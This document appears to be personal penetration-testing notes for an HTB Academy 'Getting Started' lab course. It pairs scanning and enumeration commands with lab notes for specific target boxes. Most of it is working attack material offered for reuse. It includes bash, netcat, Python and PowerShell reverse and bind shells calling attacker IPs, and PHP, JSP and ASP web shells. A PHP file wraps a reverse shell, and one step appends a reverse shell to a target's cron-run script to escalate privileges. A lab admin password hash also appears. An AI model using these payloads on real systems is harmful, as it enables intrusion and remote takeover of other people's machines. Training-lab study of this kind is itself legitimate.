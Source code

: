# GettingStarted(Complete)

## Basic Tools 
> - **Connect to VPN **  sudo openvpn user.ovpn   
> - **Connect to FTP **  ftp 10.0.0.0   
> - **Connect to SSH **  ssh user@10.0.0.0   


    
## Service Scanning 
> - **Run an nmap script scan on an IP **  nmap -sV -sC -p- 10.0.0.0   
> - **Grab banner of an open port **  netcat 10.10.10.10 22   
> - **List SMB Shares **  smbclient -N -L \\\\10.129.42.253   
> - **Connect to a SMB Share **  smbclient \\\\10.129.42.253\\users
> - **Grab banner of an open port **  netcat 10.10.10.10 22
> - **Grab banner of an open port **  netcat 10.10.10.10 22


   
  
## WEB Enumb
> - **scan web directories** gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt
> - **scan sub directories of a website** gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt
> - **List potential directories** curl 10.10.10.121/robots.txt
> - **grab website banner** curl -IL https://www.inlanefreight.com
> - **List details about webserver/certs** whatweb 10.10.10.121 or whatweb --no-errors 10.10.10.0/24


    

## Exploit Scan
> - **Install exploitdb tool** sudo apt install exploitdb -y
> - **Search for public exploits for a web application** searchsploit openssh 7.2
### Metasploit
Metasploit Framework (MSF) contains exploits for many public vulnerabilities and provides an easy way to use these exploits against vulnerable targets
> - **MSF: Start the Metasploit Framework** msfconsole
> - **Search for public exploits in MSF** search exploit eternalblue
> - **Start using an MSF module** use exploit/windows/smb/ms17_010_psexec
> - **Show required options for an MSF module** show options
> - **Set a value for an MSF module option** set RHOSTS 10.10.10.40
> - **Test if the target server is vulnerable** check
> - **Run the exploit on the target server is vulnerable** exploit
     
    

## Using SHells
netcat can be used to connect to any listening port and interact with the service running on that port.
> - **Start a nc listener on a local port (on my computer)** nc -lvnp 1234  or   nc 10.10.10.1 1234
> - **Send a reverse shell from the remote server** bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
> - **Another reverse shell from the remote server** rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
> - **Start a bind shell on the remote server** rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
> - **same as above but with powershell** powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
> - **Connect to a bind shell started on the remote server (on my computer)** nc 10.10.10.1 1234
>
> - **Upgrade shell TTY (1)

> - 
  > whatweb --no-errors 10.10.10.0/24
  # 
  > 
  # install seclists = git clone https://github.com/danielmiessler/SecLists && sudo apt install seclists -y
  # Next, add a DNS Server such as 1.1.1.1 to the /etc/resolv.conf file.
  > 






## NCAT
# netcat can be used to connect to any listening port and interact with the service running on that port.
> ncat ip port 
> nc -nv ip port

## NMAP
# port scanner
> nmap -sV -sC -p- 10.129.42.253
> nmap -sV --open -oA nibbles_initial_scan <ip address>
> whatweb --no-errors 10.10.10.0/24
> nmap -sV --script=banner -p21 10.10.10.0/24
> nmap -sC -sV -p21 10.129.42.253
> nmap --script smb-os-discovery.nse -p445 10.10.10.40
> nmap -A -p445 10.129.42.253

> locate scripts/citrix
> nmap --script <script name> -p<port> <host>
  


  # on host
  > bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
  > rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
  > powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
## BIND Shell
  #
  > rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
  > python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
> powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
## Once in
  > python -c 'import pty; pty.spawn("/bin/bash")'
  
## WEB SHELLS
Apache	/var/www/html/   Nginx	/usr/local/nginx/html/   IIS	c:\inetpub\wwwroot\   XAMPP	C:\xampp\htdocs\
php = <?php system($_REQUEST["cmd"]); ?>
jsp = <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
asp = <% eval request("cmd") %>
  # eg = echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
  # browser http://SERVER_IP:PORT/shell.php?cmd=id    or curl http://SERVER_IP:PORT/shell.php?cmd=id
  
## Privilege Escalation
# ./linpeas.sh
  > dpkg -l
  > sudo -l
  > sudo -u user /bin/echo Hello World!
  # /etc/crontab     /etc/cron.d      /var/spool/cron/crontabs/root
  
  
## Transfer Files
  # cd /tmp
  > python3 -m http.server 8000
  > wget http://10.10.14.1:8000/linenum.sh
  > curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
  >  scp linenum.sh user@remotehost:/tmp/linenum.sh
  # BASE64
  > base64 file -w 0
  > user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > file
  
##########################################################################################

* File Inclusion / Directory Traversal (HTB Academy)
* Linux Fundermentals (HTB Academy)
* Login Attacks (HTB Academy)
* Metasploit (HTB Academy)
* Nmap (HTB Academy)
* Web Enumeration
* Windows Fundermentals (HTB Academy)


  _______________________
  

nmap -sV --open -oA nibbles_initial_scan <ip address>
nmap -p- --open -oA nibbles_full_tcp_scan 10.129.42.190
nc -nv 10.129.42.190 22
nmap -sC -p 22,80 -oA nibbles_script_scan 10.129.42.190
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.42.190 
whatweb 10.129.42.190


gobuster dir -u http://10.129.42.190/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.246 9443 >/tmp/f"); ?>
nc -lvnp 9443
python -c 'import pty; pty.spawn("/bin/bash")'
 python3 -c 'import pty; pty.spawn("/bin/bash")'


unzip personal.zip
cat monitor.sh
sudo python3 -m http.server 8080
wget http://<your ip>:8080/LinEum.sh
chmod +x LinEnum.sh
./LinEnum.sh


https://github.com/vanhauser-thc/thc-hydra
https://github.com/digininja/CeWL
https://highon.coffee/blog/reverse-shell-cheat-sheet/!

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 9443 >/tmp/f"); ?>
nc -lvnp 9443
navigate to the webfile and should get a hit on the listner as shell
upgrade to nicer shell via which python3 commmand
python -c 'import pty; pty.spawn("/bin/bash")' OR python -c 'import pty; pty.spawn("/bin/bash")' OR python3 -c 'import pty; pty.spawn("/bin/bash")'
to enumerate priv esculations run this while listening - sudo python3 -m http.server 8080
https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Back on the target type wget http://<your ip>:8080/LinEum.sh to download the script
Once the script is pulled over, type chmod +x LinEnum.sh to make the script executable and then type ./LinEnum.sh to run it.
modify monitor.py script to add line at the end
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 8443 >/tmp/f' | tee -a monitor.sh


10.129.42.249 target
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
/theme
/data
/backups
{"status":"0","latest":"3.3.16","your_version":"3.3.15","message":"You have an old version - please upgrade"}
10.10.15.24 me
<USR>admin</USR>
<NAME/>
<PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
<EMAIL>admin@gettingstarted.com</EMAIL>

nmap -sV --open -oA nibbles_initial_scan 10.129.42.249 
nmap -p- --open -oA nibbles_full_tcp_scan 10.129.42.249 

nc -nv 10.129.42.249 22
nc -nv 10.129.42.249 80

nmap -sC -p 22,80 -oA nibbles_script_scan 10.129.42.249
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.42.249

whatweb 10.129.42.249
gobuster dir -u http://10.129.42.249/data/ --wordlist /usr/share/dirb/wordlists/common.txt

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.129.42.249 4444 >/tmp/f"); ?>
